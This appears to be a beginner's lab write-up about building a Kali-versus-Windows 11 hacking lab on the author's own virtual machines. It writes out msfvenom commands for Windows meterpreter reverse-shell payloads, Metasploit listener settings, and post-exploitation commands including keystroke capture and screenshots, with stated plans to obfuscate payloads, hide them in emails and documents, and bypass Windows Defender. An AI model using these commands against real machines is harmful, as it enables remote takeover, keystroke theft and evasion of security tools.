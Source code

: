 <h1>remote pc hacking mini project</h1>
-   I havent worked too much with kali linux but today I am going to
    attempt to create a remote pc hacking lab. I am going to have 2
    vm's, a kali linux (attacker vm), and a windows 11 vm (vulnerable
    target). I might have a metasploitable vm further down the line to
    explore more about this.

-   First I am going to install a kali linux pre built vm and open it.

-   I run sudo apt update && sudo apt full-upgrade -y

    -   ![](images\media\image7.png)

-   Lets confirm our ip to generate payloads

    -   ![](images/media/image11.png)

    -   It is 192.168.7.132

-   Lets generate the payload

    -   ![](images/media/image4.png)

-   Lets set up the listener in metasploit. I first run msfconsole

    -   ![](images/media/image1.png)

-   In the metasploit terminal, lets run:

    -   use exploit/multi/handler

> set payload windows/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> exploit

-   ![](images/media/image6.png)

<!-- -->

-   I then open another terminal and create a http server where you can
    download the payload. I will later experiment social engineering
    attacks paired with the payload but for now we are going to download
    it directly from the server.

-   On the vm, I go directly to the http server
    ([[http://192.168.7.132/payload.exe]](http://192.168.7.132/payload.exe))
    which automatically downloads the payload. I go ahead and execute it

    -   ![](images/media/image8.png)

-   If we go to our attacker machine, we get something

    -   ![](images/media/image10.png)

-   I am going to open the session by using sessions-i 1. I then attempt
    to get some info like executing sysinfo but unfortunately it appears
    windows defender is blocking the payload

    -   ![](images/media/image9.png)

-   Ok, In the vulnerable machine i double checked that real time
    defender, the firewall, etc are off

-   I am going to try to make another payload but this time i will use
    x64 architecture since i am targeting a windows 11 machine

    -   msfvenom -p windows/x64/meterpreter/reverse_tcp
        LHOST=192.168.x.x LPORT=4444 -f exe -o payload.exe

    -   Then do this command in the metasploit console:

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> Exploit

-   Ok, that didn't work

-   Gonna try reverse_tcp instead of reverse_https since it is less
    likely to be flagged. Also gonna use port 443 to bypass basic
    firewalls:

    -   msfvenom -p windows/x64/meterpreter/reverse_https
        LHOST=\<Kali_IP\> LPORT=443 -f exe -o payload.exe

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_https
>
> set LHOST 192.168.7.132
>
> set LPORT 443
>
> Exploit

-   After turning off every single protection layer I know of, I am
    finally able to run sysinfo. (i added the payload to allowed
    threats, and ran the program as the administrator)

    -   ![](images/media/image3.png)

-   Ran some basic commands like sysinfo, getuid, keyscan_start/dump,
    screenshot (you can see what was on the victim's machine behind the
    terminal)

    -   ![](images/media/image5.png)

    -   Also ran ipconfig to get networking information

    -   ![](images/media/image2.png)

**Next I will try to obsuficate the payload and put it in emails, files,
docs! I am going to attempt to also bypass all of windows defender
bloat.**
